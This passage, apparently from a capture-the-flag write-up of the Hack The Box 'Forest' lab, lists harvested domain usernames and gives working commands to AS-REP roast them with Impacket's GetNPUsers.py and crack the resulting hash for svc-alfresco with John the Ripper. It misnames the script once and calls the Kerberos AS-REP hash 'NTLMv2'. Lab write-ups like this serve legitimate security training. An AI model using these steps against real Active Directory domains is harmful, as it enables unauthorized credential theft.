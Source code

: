 I will clean up the enumeration user accounts list to just contain actual users accounts and store them in a text file so we can AS-REP roast them.

```
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

We can use the Impacket python script GetPNUsers.py against our user list to see if we have any accounts with the "Do not use kerberos preauthentication" box in Active Directory unchecked.

![](<../../../.gitbook/assets/image (317).png>)

```
sudo python /opt/impacket-0.9.19/examples/GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb.local/ -usersfile /home/kali/users.txt
```

After a short while the script returns the results below where we have the account "svc-alfresco" that does not require Kerberos preauthentication enabled and we have pulled a NTLMv2 hash.

![](<../../../.gitbook/assets/image (318).png>)

Store this hash in a file and we can run it against John The Ripper and see if we can crack it.

```aspnet
sudo john --wordlist=/usr/share/wordlists/rockyou.txt /home/kali/kerberoshash
```

